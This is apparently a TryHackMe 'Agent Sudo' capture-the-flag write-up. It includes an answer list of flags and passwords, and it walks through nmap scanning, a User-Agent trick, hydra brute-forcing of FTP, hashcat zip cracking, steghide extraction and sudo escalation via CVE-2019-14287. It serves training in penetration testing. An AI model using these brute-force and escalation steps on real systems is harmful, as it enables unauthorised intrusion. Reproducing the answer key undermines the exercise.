

> a4a031kf7p | Tue Oct  3 02:18:50 AM -03 2023

# Agent Sudo

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Link to room](https://tryhackme.com/room/agentsudoctf)

1. ~~Deploy the machine No answer needed~~
2. ~~How many open ports? 3~~
3. ~~How you redirect yourself to a secret page? User-Agent: C~~
4. ~~What is the agent name? Chris~~
5. ~~FTP password crystal~~
6. ~~Zip file password alien~~
7. ~~steg password Area51~~
8. ~~Who is the other agent (in full name)? James~~
9. ~~SSH password hackerrules!~~
10. ~~What is the user flag? b03d975e8c92a7c04146cfa7a5a313c7~~
11. ~~What is the incident of the photo called? Roswell alien autopsy~~
12. ~~CVE number for the escalation CVE-2019-14287~~
13. ~~What is the root flag? b53a02f55b57d4439e3341834d70c062~~
14. ~~(Bonus) Who is Agent R? DesKel~~

## 1. Enumeration.

1.1 Port Scanning

death@portals:~/agentsudoctf$  nmap -A -oN nmap/initial $ip

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-02 21:49 -03
Nmap scan report for 10.10.245.0
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.11 seconds
```


1.2 Trying User-Agent

Using the curl tool we make the following request curl -L -A "User-Agent" URL.
 - The curl command with the -L option is used to follow HTTP redirects when making requests;
 - The -A option in the curl command is used to specify a custom user-agent string in the HTTP request header;

death@portals:~/agentsudoctf/$  curl -L -A "C" hxxp://10.10.245.0/

```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```
We get information from agent R's that agent Chris's password is weak, so we can try brute force on ssh and ftp.

## 2. Exploitation.

1.1 Using Hydra tool to brute-force services, ssh and ftp.
 - -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE;
 - -p PASS  or -P FILE  try password PASS, or load several passwords from FILE;
 - service://server;
 - -V for verbose;

death@portals:~/agentsudoctf$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.245.0 -V

```
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "oliver" - 253 of 14344398 [child 11] (0/0)
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "diana" - 254 of 14344398 [child 12] (0/0)
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "samsung" - 255 of 14344398 [child 14] (0/0)
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "freedom" - 256 of 14344398 [child 15] (0/0)
[21][ftp] host: 10.10.245.0   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-02 22:50:39

```

1.2 Getting into ftp with the credentials.

death@portals:~/agentsudoctf$ ftp
  - open;
  - ip;
  - username;
  - password;
  - mget * The mget command in FTP is used to retrieve multiple files from the remote FTP server to your local machine, * for all; 

```
ftp> open
(to) 10.10.245.0
Connected to 10.10.245.0.
220 (vsFTPd 3.0.3)
Name (10.10.245.0:death): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||18570|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||35691|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |***************************************************|   217       91.93 KiB/s    00:00 ETA
y226 Transfer complete.
217 bytes received in 00:00 (1.15 KiB/s)
mget cute-alien.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||16592|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |***************************************************| 33143      175.11 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (88.34 KiB/s)
mget cutie.png [anpqy?]? y
229 Entering Extended Passive Mode (|||60086|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |***************************************************| 34842      184.29 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (92.94 KiB/s)
ftp> 
```

death@portals:~/agentsudoctf$ ls -l
 - -l use a long listing format

```
-rw-rw-r-- 1 death death 33143 Oct 29  2019 cute-alien.jpg
-rw-rw-r-- 1 death death 34842 Oct 29  2019 cutie.png
-rw-rw-r-- 1 death death   217 Oct 29  2019 To_agentJ.txt
```

death@portals:~/agentsudoctf$ cat To_agentJ.txt

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

1.3 Steganography

1.4 binwalk

death@portals:~/agentsudoctf$ binwalk cutie.png

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
There are embedded files in this file.

death@portals:~/agentsudoctf$ binwalk -e cutie.png
 - -e Automatically extract known file types;

```
ls -l _cutie.png.extracted
total 320
-rw-rw-r-- 1 death death 279312 Oct  2 01:00 365
-rw-rw-r-- 1 death death  33973 Oct  2 01:00 365.zlib
-rw-rw-r-- 1 death death    280 Oct  2 01:00 8702.zip
-rw-r--r-- 1 death death     86 Oct 29  2019 To_agentR.txt

```

1.5 zip2john 

The 8702.zip file is encrypted and We need to break the encryption, we will use the zip2john tool to get the hash.

death@portals:~/agentsudoctf/_cutie.png.extracted$ zip2john 8702.zip

```
$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2
```
We need to copy exactly this hash from the data output. Use nano to put it in a file and pass it to hashcat.

[Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

1.6 hashcat

death@portals:~/agentsudoctf/_cutie.png.extracted$ hashcat -a 0 -m 13600 hash /usr/share/wordlists/rockyou.txt
 - -a Attack mode, 0 Straight;
 - -m Hash-Type, 13600 zip;

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:alien
Session..........: hashcat                       
Status...........: Cracked
Hash.Name........: WinZip
Hash.Target......: $zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e6.../zip2$
Time.Started.....: Tue Oct  3 04:07:01 2023 (2 secs)
Time.Estimated...: Tue Oct  3 04:07:03 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     8569 H/s (7.03ms) @ Accel:32 Loops:999 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 23488/14344384 (0.16%)
Rejected.........: 0/23488 (0.00%)
Restore.Point....: 23424/14344384 (0.16%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-999
Candidates.#1....: astros1 -> 161291
Started: Tue Oct  3 04:07:00 2023
Stopped: Tue Oct  3 04:07:05 2023
```

death@portals:~/agentsudoctf/_cutie.png.extracted$ 7z x 8702.zip
 - x eXtract files with full paths;

```
  Modified: 2019-10-29 09:29:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 09:29:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y

                    
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280

death@portals:~/agentsudoctf/_cutie.png.extracted$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

'QXJlYTUx' text encoded in base64.

death@portals:~/agentsudoctf/_cutie.png.extracted$ echo "QXJlYTUx" | base64 -d
 - display a line of text
 - | redirecting output to another destination
 - -d decode data
```
death@portals:~/agentsudoctf/_cutie.png.extracted$ echo "QXJlYTUx" | base64 -d
Area51death@portals:~/agentsudoctf/_cutie.png.extracted$
```
1.7 Steghide

death@portals:~/agentsudoctf$ steghide --extract -sf cute-alien.jpg
 - --extract Extract secret data from a stego file;
 - -sf Specify the stego file (the file that contains embedded data);

```
death@portals:~/agentsudoctf$ steghide --extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
death@portals:~/agentsudoctf$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
We've got new credentials for ssh.

```
The authenticity of host '10.10.223.151 (10.10.223.151)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.223.151' (ED25519) to the list of known hosts.
james@10.10.223.151's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
james@agent-sudo:~$ 
```
Collected the user flag.

About the Alien_autospy.jpg, just do a Google search for.


3. ## Privilege escalation

james@agent-sudo:~$ sudo -l
 - The sudo -l command is used to list the privileges or permissions that a user has on a Unix-like operating system when using the sudo command. 

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$
```
Do a google and get the CVE-2019-14287.



Pass the exploit to the machine, using scp or otherwise.

```
james@agent-sudo:~$ python3 exploit.py 
Enter current username :james
Lets hope it works
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:~# 
```
Root flag and name of the agent R.


